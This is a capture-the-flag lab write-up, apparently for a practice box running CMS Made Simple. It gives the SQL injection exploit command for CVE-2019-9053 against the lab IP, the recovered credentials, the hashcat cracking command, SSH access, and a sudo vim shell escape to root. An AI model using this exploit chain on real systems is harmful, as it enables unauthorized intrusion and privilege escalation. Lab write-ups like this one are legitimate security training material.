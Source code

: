 #########

# I.P : 10.10.206.126

# 2 ports: 21 and 80

#port 2222 is running ssh

cms version <= 2.2.9 is vulnerable to SQL Injection

# 4. What's the CVE you're using against the application?

https://www.cvedetails.com/cve/CVE-2019-9053/

CVE-2019-9053

using searchspolit with:

searchsploit cms made simple 2.2.8

found it is vulnerable to SQL Injection

ran the following command:

python /usr/share/exploitdb/exploits/php/webapps/46635.py -u http://10.10.231.208/simple --crack -w /usr/share/wordlists/dirbuster-ng/wordlists/big.txt 
got the credentials:

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96

used hashcat with the following command:
hashcat -O -a 0 -m 20 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlists/rockyou.txt --force


found the password after using --show option with the above cmd :
secret..
# 5. whats the password?

secret

# 6. What am i using to get into the system?

ssh
used ssh mitch@$IP -p 2222
after logging in i got the user flag
got the user flag : G00d j0b, keep up!

# 7. user flag...

# 8. which other user did i find?
did cd .. followed by ls
sunbath.

# 9. which config error did i find:
did sudo -l and found that i have vim tool.

used vim user.txt and 
entered:
:!/bin/bash
got a shell with root previlages... :) (Did all of that all by myself so proud xD)

cd /root
then ls then cat root.txt

# 10. found the user flag:

W3ll d0n3. You made it!